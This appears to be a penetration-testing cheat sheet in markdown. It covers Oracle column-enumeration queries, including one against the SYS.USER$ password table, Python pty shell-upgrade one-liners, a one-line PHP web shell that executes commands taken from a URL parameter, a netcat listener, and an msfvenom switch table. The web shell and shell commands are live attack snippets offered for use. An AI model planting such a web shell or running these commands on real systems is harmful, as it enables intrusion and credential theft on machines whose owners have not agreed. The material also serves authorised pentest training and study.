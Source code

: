 `SELECT column_name FROM all_tab_columns WHERE table_name = 'blah';`

`SELECT column_name FROM all_tab_columns WHERE table_name = 'blah' and owner = 'foo';`

`SELECT column_name FROM all_tab_columns WHERE table_name = 'USER$' and owner = 'SYS';`

***

## Shells

### Upgrades and One Liners

nc shell upgrade to /bin/bash/
```python
python -c "import pty;pty.spawn('/bin/bash');"
```
Py3
```python
python3 -c "import pty;pty.spawn('/bin/bash');"
```
PHP
```php
<?php echo shell_exec($_GET['cmd']);?>
```

Classic Netcat Listener

```bash
nc -nlvp <PORT>
```

***

### MSF VENOM (Shell Payload Generator)

Generates shells or other malicious payloads.

[A great cheat sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/) from ThorSec.

|Switch|Function|
|---|---|
|-p|payload|
|-e|encoder|
|-i|encode code (number of rounds)|
|-f|format|
|LHOST=|Listening Host Address|
|LPORT=|Listening Port Number|
|EXITFUNC=thread|Exit function thread and not proc|

List payloads available: 

```bash
msfvenom -l
```
